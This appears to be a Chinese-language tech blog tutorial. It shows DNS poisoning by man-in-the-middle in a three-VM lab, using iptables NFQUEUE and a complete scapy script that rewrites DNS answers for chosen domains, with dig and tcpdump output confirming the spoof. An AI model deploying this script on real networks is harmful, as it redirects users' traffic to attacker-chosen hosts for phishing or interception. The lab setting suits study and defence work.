 ```yaml
---
layout:     post
title:      "DNS污染的Python实现"
subtitle:   "Modify packets with nfqueue and scapy"
date:       2019-05-25 00:00:00
author:     "NJL"
header-img: "img/post-bg-2015.jpg"
tags:
    - Python
    - iptables
    - DNS 
---
```



#### 0x01 引言

本文简单介绍了一种 Man-in-the-middle 的 DNS 攻击方法。在中间设备上通过 iptables 捕获 DNS Packet，然后使用 Scapy 来修改 DNS 的 Resource Record， 以此来实现 DNS 污染。


#### 0x02 测试环境拓扑 

准备三台虚机，分别是以下 IP

    Node1: 192.168.129.107  # client
    Node2：192.168.129.112  # router
    Node3：192.168.129.113  # dns server 

![Deployment Image](/img/in-post/post-dns-spoof/DNS_SPOOF.jpg)
 
Node2 作为中间路由器, 需要打开 `ipv4_forward`, 并在 Node1 和 Node3上 分别设置明细路由，使Node2作为它们的网关  


    # 在 node2 上执行，开启转发
    root@node2:/# sysctl -p
    net.ipv4.ip_forward = 1

    # 在 node1 上执行, 目的地址为 Node3 的数据包下一跳为 Node2
    root@node1:/# ip route add 192.168.129.113 via 192.168.129.112

    # 在 node3 上执行, 目标地址为 Node1 的数据包下一跳为 Node2 
    root@node3:/# ip route add 192.168.129.107 via 192.168.129.112

    #在 node3 上安装 dnsmasq 
    root@node3:/# apt-get install dnsmasq

测试域名解析，node1 向 node3 请求 www.baidu.com 的域名解析，  node2 上应该能能抓到DNS请求和应答包

    # 在node1 上向 node3 请求 dns 解析
     root@node1:/#dig www.baidu.com @192.168.129.113

    # 在 node2 上应该能抓到 DNS 解析包
    root@node2:/# tcpdump -i any -p udp and host 192.168.129.107 and port 53
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    08:44:29.634961 IP 192.168.129.107.37559 > 192.168.129.113.domain: 63650+ [1au] A? www.baidu.com. (54)
    08:44:29.635083 IP 192.168.129.107.37559 > 192.168.129.113.domain: 63650+ [1au] A? www.baidu.com. (54)
    08:44:29.642843 IP 192.168.129.113.domain > 192.168.129.107.37559: 63650 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)
    08:44:29.642918 IP 192.168.129.113.domain > 192.168.129.107.37559: 63650 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)


#### 0x03 修改 DNS 应答报文 

node2 上添加一条iptables 规则， 使所有 DNS Response Packet 都进入 `nfqueue 0` 中 

    
    root@node2:/# iptables -t filter -I FORWARD 1 -p udp --sport 53 -j NFQUEUE --queue-num 0


安装`netfilterQueue`的底层依赖 `libnfnetlink`, 从 https://netfilter.org/projects/ 下载。

#### [libnfnetlink](https://netfilter.org/projects/libnfnetlink/index.html)

> `libnfnetlink` is the low-level library for netfilter related kernel/userspace communication. It provides a generic messaging infrastructure for in-kernel netfilter subsystems(nfnetlink_log, nfnetlink_queue, nfnetlink_conntrack).  
This library is not meant as a public API for application developers. It's only used by other netfilter.org projects.  

简而言之就是为其他netfilter项目提供底层的消息基础设施  

#### [libnetfilter_queue](https://netfilter.org/projects/libnetfilter_queue/)

> It is a userspace library providing an API to packets that have queued by the kernel packet filter. 

提供从 kernel nfnetlink_queue 中获取 packet 的接口， 并可以修改包并重新入队  

---

以下为 dns_ans_spoof 的源码


    root@node2:/# cat dns_ans_spoof.py 

    import scapy.all as scapy
    from netfilterqueue import NetfilterQueue
    
    # 只修改此 DNS Server的响应
    target_dns_servers = ['192.168.129.113']
    # 将 www.baidu.com 的域名解析修改为 1.1.1.1
    target_domains = {
       'www.baidu.com.': '1.1.1.1',
       'www.sina.com.': '2.2.2.2'
    }
    target_domains_set = target_domains.keys()
    
    def dns_spoof_and_accept(pkt):
        try:
            dns_packet = scapy.IP(pkt.get_payload())
            dns_server_ip = dns_packet[scapy.IP].src
            # 源地址匹配，并且有 RR 记录
            if dns_server_ip in target_dns_servers and dns_packet.haslayer(scapy.DNSRR):
                qname = dns_packet[scapy.DNSQR].qname 
                if qname in target_domains_set:
                    dns_response = scapy.DNSRR(rrname=qname, rdata=target_domains[qname])
                    dns_packet[scapy.DNS].an = dns_response
                    dns_packet[scapy.DNS].ancount = 1
                    # 删除Checksum 
                    del dns_packet[scapy.IP].len
                    del dns_packet[scapy.IP].chksum
                    del dns_packet[scapy.UDP].len
                    del dns_packet[scapy.UDP].chksum
                    pkt.set_payload(str(dns_packet))
        except Exception as e:
            pass
        finally:
            pkt.accept()
    
    nfqueue = NetfilterQueue()
    # 满足条件的 pkt 会进入此 nfqueue, 交给 dns_spoof_and_accept(pkt) 来处理
    nfqueue.bind(0, dns_spoof_and_accept)
    try:
        nfqueue.run()
    except KeyboardInterrupt:
        print('Exit')
    
    nfqueue.unbind()






运行 `dns_ans_spoof.py`, 然后再次在 node1 上请求 dns 解析


    # 百度的地址已经被修改为了 1.1.1.1, 其他未配置的请求不会被修改
    root@node1:/# dig www.baidu.com @192.168.129.113 

    ; <<>> DiG 9.11.3-1ubuntu1.5-Ubuntu <<>> www.baidu.com @192.168.129.113
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 23488
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;www.baidu.com.			IN	A
    
    ;; ANSWER SECTION:
    www.baidu.com.		0	IN	A	1.1.1.1
    
    ;; Query time: 83 msec
    ;; SERVER: 192.168.129.113#53(192.168.129.113)
    ;; WHEN: Mon Mar 11 17:07:56 CST 2019
    ;; MSG SIZE  rcvd: 71


    # 查看 node2 上的抓包信息 
    09:07:56.433256 IP 192.168.129.107.38241 > 192.168.129.113.domain: 23488+ [1au] A? www.baidu.com. (54)
    09:07:56.433479 IP 192.168.129.107.38241 > 192.168.129.113.domain: 23488+ [1au] A? www.baidu.com. (54)
    # Original DNS Resp
    09:07:56.442586 IP 192.168.129.113.domain > 192.168.129.107.38241: 23488 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)
    # Modified DNS Resp
    09:07:56.515473 IP 192.168.129.113.domain > 192.168.129.107.38241: 23488 1/0/1 A 1.1.1.1 (71)


#### 0x04 Reference


https://medium.com/@777rip777/dns-spoofer-with-scapy-part-5-4a84b17f35a3  
https://scapy.readthedocs.io/en/latest/introduction.html  
https://en.wikipedia.org/wiki/Domain_Name_System  
https://en.wikipedia.org/wiki/DNS_spoofing  

